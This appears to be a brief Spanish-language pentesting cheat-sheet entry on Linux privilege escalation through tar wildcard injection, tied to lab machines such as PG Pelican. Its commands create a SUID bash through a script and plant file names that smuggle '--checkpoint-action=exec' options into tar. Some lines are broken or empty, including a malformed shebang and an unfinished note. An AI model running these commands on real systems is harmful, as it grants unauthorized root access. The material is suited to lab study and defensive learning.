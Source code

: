 
## DESCRIPTION



#### Mas información
* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks


## EXPLOITATION

```
echo '#/!bin/bash\nchmod +s /bin/bash' > shell.sh

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1
```



## MACHINES

* Hack The Box: 
* PG: Pelican

**!!NOTA IMPORTANTE!!** 
